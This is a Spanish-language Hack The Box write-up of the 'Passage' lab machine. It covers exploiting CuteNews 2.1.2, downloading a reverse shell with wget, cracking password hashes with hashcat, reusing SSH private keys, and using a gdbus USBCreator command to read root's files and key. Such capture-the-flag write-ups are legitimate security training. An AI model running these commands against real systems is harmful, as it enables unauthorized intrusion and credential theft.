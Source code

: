 ```yaml
---
title: "HTB - Passage"
author: "Oscar Bravo"
header: 
  teaser: "/assets/images/post/2021/passage.png"
categories:
  - WriteUp
tags:
  - HTB
  - Maquina
---
```



OS | LINUX
Desarrollado por | ChefByzen
Dificultad | Medio
Liberación | 05 Septiembre 2020
Puntos | 30

## Enumeración
Al usar nmap utilizando nmap -sCV -A 10.10.10.206 solo encontramos que está abierto el 80 (web).

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-17 23:49 -03
Nmap scan report for passage.htb (10.10.10.206)
Host is up (0.22s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 17:eb:9e:23:ea:23:b6:b1:bc:c6:4f:db:98:d3:d4:a1 (RSA)
| 256 71:64:51:50:c3:7f:18:47:03:98:3e:5e:b8:10:19:fc (ECDSA)
|_ 256 fd:56:2a:f8:d0:60:a7:f1:a0:a1:47:a4:38:d6:a8:a1 (ED25519)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Passage News

No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


TRACEROUTE (using port 993/tcp)
HOP RTT ADDRESS
1 228.04 ms 10.10.14.1
2 228.12 ms passage.htb (10.10.10.206)

OS and Service detection performed. Please report any incorrect
results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.98 seconds
```

Nos damos cuenta que solo está abierto el puerto 80 por lo que empezamos a revisar la pagina, y nos percatamos que es un CuteNews con versión 2.1.2, el cual es gestor de noticias/sistema de publicación blog, creado por el equipo de desarrolladores de CutePHP.

Esta versión en particular posee una exploid escrito en python que permite obtener privilegios básicos.

## 1° Shell

Ejecutamos nuestro script encontrado en exploid-db y obtenermos

```
[->] Usage python3 expoit.py
Enter the URL> http://10.10.10.206
================================================================
Users SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN
================================================================
7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1
4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88
e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd
f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca
4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc
================================================================
=============================
Registering a users
=============================
[+] Registration successful with username: hKjUyJw643 andpassword: hKjUyJw643
=======================================================
Sending Payload
=======================================================
signature_key: 988ee4f0201d4c681811c25628f9aeec-hKjUyJw643
signature_dsi: 73fcc7f25ad2b8bcdd2150941bfea878
logged in user: hKjUyJw643
============================
Dropping to a SHELL
============================
command > whoami
www-data
```

En caso de que querer una shell con opciones, simplemente subimos una shell-reverse para ejecutarla desde el navegador. Para ello ejecutamos python -m SimpleHTTPServer en nuestra terminal y desde la maquina victima bajamos el archivo de la shell revers con wget
<URL/ARCHIVO.php>, como esta segunda terminal es mejor que la anterior pero igual básica se puede mejorar con el comando python -c "import pty;pty.spawn('/bin/bash')" luego apretamos Ctrl+Z, que nos devuelve a nuestra terminal, escribimos stty raw -echo con la terminal no trabajando bien escribimos fg y apretamos enter (esto último lo hacemos dos veces) para volver a la terminal de
la máquina victima pero mejorada, para finalizar escribimos export TERM=xterm

## Shell Usuario 1

Una vez obtenida la shell inicial, empezamos a buscar información y nos encontramos que existen dos usuarion paul y nadav

Como no se puede acceder a ni una carpeta de usuario empezamos a revisar los codigos fuentes de CuteNews empezando a leer los archivos nos percatamos que en /var/www/html/CuteNews/cdata/users/line hay datos cifrado en base64, al revisar cada dato nos da
la pass de paul y nadav en sha256.

Usando hashcat y el diccionario wordlist obtenemos el pass de paul con el script **hashcat -m 1400 -a 0 paul.hash /usr/share/wordlists/rockyou.txt** obtenemos que el password de paul es atlanta1.

Solo nos queda obtener sus permisos con su paul y escribir el pass.

## Shell Usuario 2

Con el usuario paul, revisamos sus archivos y nos damos cuenta que tiene el archivo user.txt con la flag de usuario.

Además en la carpeta .ssh está los id_rsa que podemos utilizar para abrir un ssh desde nuestra terminal al usuario paul, para ello descargamos el id_rsa a nuestro equipo y le damos privilegio 600 para poder ejecutarlos.

Seguimos revisando la carpeta .ssh y nos percatamos que pual se puede conectar con shh a nadav por lo que ejecutamos ssh nadav@localhost y obtenemos la shell de nadav.

```
paul@passage:~$ ssh nadav@localhost
Last login: Sun Jan 17 17:25:13 2021 from 10.10.14.187
nadav@passage:~$
```

De igual manera que con el id_rsa de paul se puede obtener el ssh de nadav y poder conectarnos a futuro con este usuario.

## Root Shell

Empezamos a enumerar puertos y procesos dentro de la maquina, si bien hay un puerto que esta corriendo en localhost (puerto 631) esto es un distractor, por lo que nos quedamos con los procesos que está corriendo y nos llama la atención un proceso que se ejecuta en python con privilegios de root.

```
root 3313 0.0 0.4 235544 19956 ? Sl 17:45
0:00 /usr/bin/python3 /usr/share/usb-creator/usb-creator-helper
```

Al revisar este archivo podemos darnos cuenta que tiene privilegios de root pero puede ser ejecutados por cualquier usuario.

Leyendo en https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-inubuntu-desktop/ nos explica que se puede ejecutar una escalada de privilegio con el comando por lo que solo debemos escribir gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image y pasar root/root.txt a
home/nadav/root.txt de la siguiente manera gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --
method com.ubuntu.USBCreator.Image /root/root.txt /home/nadav/root.txt true

Para finalizar solo debemos leer el archivo y obtener la flag, si se quiere obtener la shell en ves de obtener el archivo root.txt hay que pasar el archivo root/.ssh/id_rsa y realizar los mismo pasos que con los id_rsa anteriores.

![Racso](https://www.hackthebox.com/badge/image/159593)
